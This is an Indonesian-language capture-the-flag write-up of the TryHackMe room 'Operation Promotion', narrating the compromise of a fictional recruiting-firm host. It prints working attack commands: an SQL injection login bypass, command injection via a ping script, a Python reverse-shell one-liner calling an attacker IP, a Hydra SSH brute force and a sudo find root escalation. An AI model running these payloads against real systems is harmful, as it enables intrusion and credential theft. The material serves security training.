# Introduction 
pada kesempatan kali ini saya akan menyelesaikan lab dari TryHackme dengan judul **operation promotion**. Lab ini mensimulasikan sebuah penetration testing engagement terhadap perusahaan fiktif bernama **RecruitCorp**, dengan tujuan memperoleh akses ke sistem target serta melakukan privilege escalation untuk mendapatkan seluruh flag yang tersedia

Link Challenge:
[https://tryhackme.com/room/operationpromotion](https://tryhackme.com/room/operationpromotion)

Dalam skenario ini, peserta berperan sebagai seorang security analyst dari **Hadron Security** yang sedang menjalani evaluasi promosi menjadi Penetration Tester. Oleh karena itu, challege ini berfokus pada kemampuan dasar hingga menengah dalam melakukan reconnaissance, enumeration, exploitation, dan privilege escalation.
## Scenario

>You are up for promotion at **Hadron Security**. Your senior lead, Mara, has handed you a solo engagement against **RecruitCorp**, a small recruiting firm with a public-facing portal. Compromise the host, capture the flags, and demonstrate that you are ready for the Penetration Tester title.


Langkah pertama yang dilakukan adalah proses reconnaissance terhadap target menggunakan tools **nmap**. dimana pada tahap ini bertujuan untuk mengidentifikasi port yang terbuka, service yang berjalan, serta versi service yang  digunakan oleh target 
```shell
nmap -sV -sC -p- 10.49.182.70
```

berdasarkan hasil scanning tersebut terdapat beberapa service dan port yang ditemukan. disini  saya melihat pada http terdapat file **robots.txt** dimana di dalamnya memberitahukan terdapat 1 entri yang dilarang di indeks oleh search engine, yaitu direktori `/admin`.

setelah menemukan entri `/admin/` dari hasil scan **robots.txt**, langkah selanjutnya  adalah mengakses halaman tersebut melalui web browser di alamat `http://10.49.182.70/admin`.
Halaman ini menampilkan sebuah form login yang meminta Username dan Password.

Untuk menguji apakah form login tersebut rentan terhadap SQL Injection Auth Bypas, dilakukan pengujian manual dasar dengan meng inputkan karakter khusus pada kolom input untuk melihat response aplikasi
```
admin' OR 1=1-- 
```


setelah berhasil masuk ke halaman admin menggunakan teknik bypass ini terdapat fitur  user lookup. fitur ini memungkinkan saya melihat data user yang ada di database berdasarkan user id yang di inputkan.


setelah melakukan enumerasi id secara berurutan ditemukan sebuah akun sistem yang sangat  menarik. dimana notes pada profil tersebut memberikan informasi sensitif berupa lokasi script pemeliharaan tersembungi, yaitu direktori `/admin/sysmaint-checks/ping.php`. Fitur berbasis "ping" seperti ini umumnya berinteraksi langsung dengan _system command_ pada server backend.

kemudian setelah mengakses halaman tersebut. akan menampilkah bahwa script `ping.php` menerima input melalui method  **GET** menggunakan parameter **host**

Artinya, jika kita ingin mengirimkan instruksi ke skrip ini, kita harus menyisipkannya langsung pada URL (Query String), misalnya:
```
http://10.49.182.70/admin/sysmaint-checks/ping.php?host=127.0.0.1;whoami
```

berdasarkan hasil tersebut membuktikan bahwa aplikasi web tersebut rentan terhadap OS Command Injection. Karakter titik koma ( **;** ) berhasil memisahkan command **ping** asli bawaan server dengan command **whoami** yang telah di sisipkan, dan server mengeksekusinya dengan privilege user **www-data**.


Langkah berikutnya adalah meningkatkan akses dari sekedar mengeksekusi perintah satu per satu lewat URL menjadi interactive shell dengan cara 
- Menyiapkan Listener: pada mesin attacker, dengan menjalankan netcat seperti berikut

```
nc -lvnp 4444
```



- Mengirim Payload Reverse Shell berbasis Python melalui parameter **host**
```python
127.0.0.1; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.49.116.113",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

- Staging & Stabilisasi Shell: Setelah payload di eksekusi di browser, terminal Netcat pada mesin attacker akan menerima koneksi dari server target. untuk mempermudah proses pencarian flag dan navigasi, shell tersebut distabilkan dengan cara sebagai berikut:

di dalam terminal reverse shell, tekan `Ctrl + z`untuk memindahkan listener Netcat ke background

lalu jalankan command berikut untuk mengabaikan karakter kontrol lokal dan meneruskanya langsung ke target
```
stty raw -echo; fg
```

kemudian click ENTER, dan setelah shell kembali aktif, atur environmental variables agar terminal mengenali perintah teks dan tata letak layar dengan benar:
```
export TERM=xterm
```



setelah berhasil menstabilkan interactive shell sebagai user **www-data**, langkah selanjutnya adalah melakukan inspeksi terhadap direktori internal aplikasi web untuk mencari informasi sensitif yang tertinggal.

selama proses ini ditemukan di dalam folder `/var/www/html`, sebuah direktori bernama **config**. Di dalamnya, terdapat file konfigurasi bernama **db.conf**.


setelah mengektrak hash tersebut , dilakukan upaya offline password cracking dengan tools john the ripper dengan memanfaatkan wordlist `rockyou.txt`. Namun setelah berjalan beberapa waktu,proses tersebut tidak membuahkan hasil. saya memutuskan untuk kembali memeriksa halaman utama (index) dari portal **RecruitCorp**.Di sinilah pentingnya melakukan analisis kontekstual. saya memperhatikan ada beberapa kata kunci berulang yang cukup mencolok di halaman tersebut.

Salah satu pola yang menarik perhatian saya adalah penggunaan kata-kata yang merujuk pada nama musim (**"Seasons"**) yang bersanding dengan keterangan tahun (**"Years"**). Di dunia nyata, kombinasi seperti ini—misalnya nama musim diikuti oleh angka tahun—merupakan salah satu pola dasar yang sangat populer digunakan oleh karyawan atau administrator untuk membuat kata sandi karena mudah diingat namun memenuhi syarat kompleksitas standar.

Tentu saja, kata sandi sederhana seperti kata **"Summer"** atau angka **"2026"** tidak akan bisa menembus sistem jika kita mengujinya secara mentah dan terpisah. Kekuatan dari teknik ini terletak pada bagaimana kita memanipulasi, merekayasa, dan menyatukan elemen-elemen kata kunci tersebut menjadi satu kesatuan yang dinamis. Oleh karena itu, langkah strategis saya berikutnya adalah memanfaatkan temuan ini untuk menyusun sebuah _custom wordlist_ yang jauh lebih terarah dan efisien.


Setelah merumuskan hipotesis mengenai pola kata sandi yang berbasis pada kombinasi musim dan tahun, saya memutuskan untuk menggunakan basis kata kunci **`spring2026`** sebagai titik awal. Namun, karena kata sandi mentah ini tidak akan berhasil jika digunakan secara langsung, saya harus memperluas variasinya secara otomatis menggunakan teknik _Rule-Based Attack_.

```
echo "spring2026" > password_base.txt
```

Untuk mengeksekusi strategi ini, saya menggunakan **Hashcat** di mesin penyerang  dengan memanfaatkan salah satu aturan mutasi yang sangat kuat, yaitu `dive.rule`. Aturan `dive.rule` ini secara dinamis memanipulasi kata dasar **spring2026** hingga menghasilkan hampir 100.000 kemungkinan kata sandi yang bervariasi (mulai dari perubahan kapitalisasi seperti **Spring2026!**, penambahan simbol, hingga modifikasi struktur teks lainnya).

Perintah Hashcat yang saya eksekusi:
```
hashcat --stdout password_base.txt -r /opt/hashcat/rules/dive.rule > wordlist.txt
```

langkah berikutnya adalah meluncurkan _dictionary attack_ menggunakan **Hydra**. Serangan ini diarahkan langsung ke layanan SSH pada server target dengan menargetkan nama pengguna **`jford`** yang sebelumnya telah kita identifikasi dari file konfigurasi.

```
hydra -l jford -P wordlist operation-promotion.thm ssh
```

Dengan kredensial sah ini, saya segera login melalui ssh:
```
ssh jford@operation-promotion.thm
```


Setelah berhasil masuk sebagai user **jford**, prioritas utama berikutnya adalah menavigasi ke direktori rumah (_home directory_) pengguna tersebut untuk mencari dan mengekstrak flag pertama, yaitu **User Flag** (`user.txt`).


Setelah mengamankan posisi sebagai user **jford** dan mengambil _User Flag_, tahapan berikutnya masuk ke dalam **Privilege Escalation** untuk merebut hak akses kekuasaan penuh (**root**).

Langkah awal yang paling standar dan cepat untuk mencari miskonfigurasi internal adalah dengan memeriksa izin eksekusi perintah khusus milik user saat ini menggunakan perintah:
```
sudo -l
```

Merujuk pada dokumentasi  [GTFOBins](https://gtfobins.org/gtfobins/find/#shell) (repositori kurasi biner Linux yang dapat disalahgunakan untuk melompati pembatasan keamanan), utilitas `find` memiliki parameter `-exec`. Parameter ini berfungsi untuk menjalankan perintah shell tambahan pada berkas yang ditemukan.

Karena `find` berjalan dengan hak istimewa **root**, perintah yang disisipkan di dalam `-exec` juga akan otomatis dieksekusi dengan privilese tertinggi ( **root**).

Payload eksploitasi yang digunakan adalah:
```
sudo find . -exec /bin/sh \; -quit
```

Sesaat setelah perintah tersebut dieksekusi, _prompt_ shell akan berubah menjadi tanda pagar (`#`), menandakan kita telah sukses menjadi **root**.

Langkah penutup adalah mengambil bendera akhir (_Root Flag_) yang biasanya terletak di dalam direktori `/root/`


# Kesimpulan

Eksploitasi pada mesin **RecruitCorp** (Operation Promotion) memberikan gambaran nyata bagaimana sebuah rantai kerentanan (_vulnerability chain_) kecil yang saling terhubung dapat mengakibatkan kompromi total pada sebuah server.
Mari kita rangkum kembali alur serangan (_kill chain_) yang telah kita lakukan:


1. Memanfaatkan celah keamanan _OS Command Injection_ pada aplikasi web untuk mengeksekusi _one-liner reverse shell_ berbasis Python 3.
2. Kelalaian dalam manajemen _source control_ meninggalkan berkas sensitif `db.conf` yang memuat _username_ valid dan repositori _hash_ kata sandi.
3. Kelemahan pola pembuatan kata sandi pengguna (_contextual password predictability_) berhasil dieksploitasi dengan serangan hibrida menggunakan **Hashcat (`dive.rule`)** dan **Hydra** hingga mendapatkan akses SSH sebagai user `jford`.
4. Miskonfigurasi fatal pada hak akses Sudo (`NOPASSWD` pada biner `/usr/bin/find`) membuka jalan bagi kita untuk keluar dari batasan pengguna biasa menggunakan teknik **GTFOBins** dan merebut takhta tertinggi sebagai `root`.

Terima kasih sudah membaca sampai akhir. Semoga write-up ini bermanfaat dan bisa menjadi referensi dalam perjalanan belajar cybersecurity kalian. Sampai jumpa di write-up berikutnya, happy hacking and keep learning!😉

